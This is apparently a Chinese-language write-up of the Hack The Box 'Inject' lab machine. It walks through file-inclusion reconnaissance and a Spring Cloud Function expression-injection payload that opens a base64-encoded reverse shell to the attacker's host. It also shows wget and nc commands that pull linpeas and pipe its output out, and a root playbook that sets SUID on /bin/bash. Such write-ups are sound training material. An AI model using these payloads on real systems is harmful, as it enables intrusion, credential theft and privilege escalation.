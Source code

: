 ```yaml
---
typora-root-url: ./image
---
```


## Hack The Box {inject}关卡

Ip地址：

![image-20230603203105184](/:Users:fanhexuan:Library:Application Support:typora-user-images:image-20230603203105184.png)

直接访问IP地址拒绝访问，可能是80端口没开。

kali nmap扫一下：

![image-20230603203746134](/:Users:fanhexuan:Library:Application Support:typora-user-images:image-20230603203746134.png)

发现开了22端口和8080端口。

访问8080端口：

![image-20230603203624481](/:Users:fanhexuan:Library:Application Support:typora-user-images:image-20230603203624481.png)

扫了一圈都是静态页面，不过右上角有个upload，可以上传文件。

![image-20230603203712469](/:Users:fanhexuan:Library:Application Support:typora-user-images:image-20230603203712469.png)

除了图片其他文件都过滤了，不能上传webshell或者.htaccess。但是上传图片后图片名作为Get参数传入后端，就比较有意思了。

```url
http://10.10.11.204:8080/show_image?img=shell.png
```

BP抓包，看一下有没有文件包含（LFI）。

![image-20230603204308169](/:Users:fanhexuan:Library:Application Support:typora-user-images:image-20230603204308169.png)

果不其然，翻一下有没有敏感信息。

除了root还有两个用户。

![image-20230603204423359](/:Users:fanhexuan:Library:Application Support:typora-user-images:image-20230603204423359.png)

再翻一翻，目录下文件不多的话能看就全看完吧，信息收集真的很重要。

这里有一个pom.xml

![image-20230603204712669](/:Users:fanhexuan:Library:Application Support:typora-user-images:image-20230603204712669.png)

解释一下pom.xml是干嘛的：

主要包含了项目的基本信息，可以看到用了项目中都用了哪些组件。

![image-20230603205202807](/:Users:fanhexuan:Library:Application Support:typora-user-images:image-20230603205202807.png)

看上去是web app使用了spring的框架。可以通过查找谷歌来找到可用的漏洞。

![image-20230603210020247](/:Users:fanhexuan:Library:Application Support:typora-user-images:image-20230603210020247.png)

国内也有一篇讲的不错的：https://www.cnblogs.com/9eek/p/16113603.html

具体的利用方式看👆文章。



通过Spring Cloud Rce 反弹shell。

本机瑞士军刀监听9999端口：

![image-20230603210523013](/:Users:fanhexuan:Library:Application Support:typora-user-images:image-20230603210523013.png)

构造Payload：

防止空格分割命令字符串和意想不到的命令解释方式，把payload base64编码一下：

https://bewhale.github.io/tools/encode.html

![image-20230603211406984](/:Users:fanhexuan:Library:Application Support:typora-user-images:image-20230603211406984.png)

```java
T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE2LjUvOTk5OSAwPiYxJw==}|{base64,-d}|{bash,-i}")
```

写入**spring.cloud.function.routing-expression**字段，发包即可反弹shell。

![image-20230603210921634](/:Users:fanhexuan:Library:Application Support:typora-user-images:image-20230603210921634.png)

本地收到了反弹过来的shell:

![image-20230603211525530](/:Users:fanhexuan:Library:Application Support:typora-user-images:image-20230603211525530.png)

反弹过来的shell太难用而且还没法自动补全，通过python升级一下shell。



方法如下：

参考：https://www.cnblogs.com/sainet/p/15783539.html

在反向的shell有python的情况下：

```shell
which python
#or 
which python3
```

执行：

```python
python3 -c "import pty; pty.spawn('/bin/bash')"
#这段代码是在Python中使用pty模块创建一个交互式的bash终端。pty.spawn()函数会启动一个新的进程，并将其连接到一个伪终端（pseudo-terminal），然后将标准输入、标准输出和标准错误输出重定向到该伪终端。
#设置环境变量
export SHELL=bash
export TERM=xterm-256color #允许 clear，并且有颜色
```

ctrl+z暂停shell

```shell
stty raw -echo;fg
#键入reset
```

![image-20230603211809743](/:Users:fanhexuan:Library:Application Support:typora-user-images:image-20230603211809743.png)

查找输入frank的文件：

![image-20230603212220456](/:Users:fanhexuan:Library:Application Support:typora-user-images:image-20230603212220456.png)

通过`cat /home/frank/.m2/settings.xml`找到用户phil的密码。

![image-20230603212332261](/:Users:fanhexuan:Library:Application Support:typora-user-images:image-20230603212332261.png)

su切换用户到Phil，拿到第一个flag。

本机启一个python web服务器上传linpeas.sh到靶机：

```shell
#先切换到要上传文件的目录
python3 -m http.server
```

靶机shell使用weget下载文件：

```shell
wget 10.10.16.5:8000/linpeas.sh
```

![image-20230603212911397](/:Users:fanhexuan:Library:Application Support:typora-user-images:image-20230603212911397.png)

运行linpeas.sh 并将结果传到本地：

```shell
#本地
ncat -lvnp 8888 |tee result.txt
```

```shell
#靶机
sh linpeas.sh | nc 10.10.16.5 8888
```

本地使用`less -r result.txt`带颜色阅读结果（也可以在靶机shell上直接用这个命令看，但是太卡）。

![image-20230603214402650](/:Users:fanhexuan:Library:Application Support:typora-user-images:image-20230603214402650.png)

在insteresting中发现playbook，并且是root权限。

![image-20230603213322666](/:Users:fanhexuan:Library:Application Support:typora-user-images:image-20230603213322666.png)

写xml通过python服务器和wget传到靶机。

playbook的路径为**/opt/automation/tasks**，上传到这里会自动运行

```shell
#赋予/bin/bash suid权限，
#s：即运行/bin/bash时被授予程序所有者到权限，也就是root
#u：所有用户都可以通过/bin/bash获得root权限
chomd u+s /bin/bash

```

下载完成

![image-20230603214601584](/:Users:fanhexuan:Library:Application Support:typora-user-images:image-20230603214601584.png)

等待自动运行即可

![image-20230603214656609](/:Users:fanhexuan:Library:Application Support:typora-user-images:image-20230603214656609.png)

![image-20230603214718220](/:Users:fanhexuan:Library:Application Support:typora-user-images:image-20230603214718220.png)

提权成功，拿到system flag。